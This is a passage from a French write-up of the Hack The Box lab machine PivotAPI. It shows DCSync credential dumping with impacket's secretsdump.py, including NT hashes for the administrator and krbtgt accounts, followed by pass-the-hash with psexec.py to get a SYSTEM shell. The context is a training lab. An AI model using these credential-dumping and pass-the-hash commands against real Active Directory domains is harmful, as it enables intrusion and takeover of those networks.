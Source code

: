 On peut maintenant récupérer les hashes NT de tous les comptes du domaine car on a les droits dcsync (`DS-Replication-Get-Changes` et `DS-Replication-Get-Changes-All`) :

```bash
❯ secretsdump.py PIVOTAPI$/Administrador:'QVXf458yVa6WwYKYwA3a'@PivotAPI.LicorDeBellota.htb
<...>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:0d8b667033c31225252e66198276e620:::
<...>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrador:500:aad3b435b51404eeaad3b435b51404ee:392d2d96a5ec8969796d7450cf54af48:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3fc8c66f79c15020a2c2c7f1cffd8049:::
```

L'outil [psexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py) de la suite [impacket](https://github.com/SecureAuthCorp/impacket) permet de déposer un service binary sur un share accéssible en écriture, créer et démarrer un service dans le gestionnaire de contrôle des services (SCM) via une connexion DCE/RPC sur le named pipe `\PIPE\svcctl`.

On peut finalement psexec avec le hash NT de l'Administrateur du domaine et récupèrer un shell en tant que nt authority\system :

```bash
❯ psexec.py LICORDEBELLOTA/Administrador@PivotAPI.LicorDeBellota.htb -hashes ':392d2d96a5ec8969796d7450cf54af48'
```


[127.0.0.1]: PS C:\> ls -R C:\Developers